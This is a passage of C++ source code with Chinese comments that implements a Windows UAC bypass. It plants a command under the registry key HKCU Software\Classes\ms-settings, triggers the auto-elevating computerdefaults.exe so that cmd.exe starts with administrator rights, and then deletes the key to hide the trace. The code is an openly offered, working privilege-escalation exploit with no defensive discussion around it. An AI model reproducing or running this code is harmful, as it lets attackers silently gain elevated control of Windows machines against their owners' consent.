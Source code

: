         // 添加 "DelegateExecute" 键值  
        if (RegSetValueEx(hKey, valueName, 0, REG_SZ, (const BYTE*)"", sizeof("")) != ERROR_SUCCESS) {  
            std::cerr << "Unable to set registry value\n";  
            RegCloseKey(hKey);  
            return false;  
        }  
      
        // 设置默认键值为 "calc.exe"  
        if (RegSetValueEx(hKey, NULL, 0, REG_SZ, (const BYTE*)filename, strlen(filename) + 1) != ERROR_SUCCESS) {  
            std::cerr << "Unable to set default registry value\n";  
            RegCloseKey(hKey);  
            return false;  
        }  
      
    	STARTUPINFO si;  //进程启动信息  
    	PROCESS_INFORMATION pi;  //进程信息  
    	ZeroMemory(&si, sizeof(si));  //将结构体si的所有成员都初始化为0  
    	ZeroMemory(&pi, sizeof(pi));  //将结构体pi的所有成员都初始化为0  
    	si.cb = sizeof(si);  //结构体大小  
      
    	if (!CreateProcess(  
    		"C://windows//system32//cmd.exe",  //要执行的应用程序名称（包含路径）  
    		(LPSTR)"/c C://windows//system32//computerdefaults.exe",  //命令行参数  
    		NULL,  //进程句柄不可被继承  
    		NULL,  //线程句柄不可被继承  
    		FALSE,  //不继承句柄  
    		0,  //标志位为0  
    		NULL,  //使用父进程的环境变量  
    		NULL,  //使用父进程的工作目录  
    		&si,  //传递启动信息  
    		&pi)  //传递进程信息  
    		) {  
    		printf("CreateProcess failed (%d).\n", GetLastError());  //打印错误信息  
    		return 0;  
    	}  
      
    	//释放进程句柄和线程句柄  
    	CloseHandle(pi.hProcess);  
    	CloseHandle(pi.hThread);  
      
    	Sleep(1000);  
    	  
    	//删除整个ms-settings目录  
    	if (RegDeleteTree(HKEY_CURRENT_USER,"Software\\Classes\\ms-settings") != ERROR_SUCCESS)  
    	{  
    		printf("RegDeleteTree Error:%d", GetLastError());  
    		return false;  
    	}  
    	system("pause");  
    }  
      
      
    int main()  
    {     
        const char* filename = "cmd.exe";  
    	BypassUac(filename);  
    }
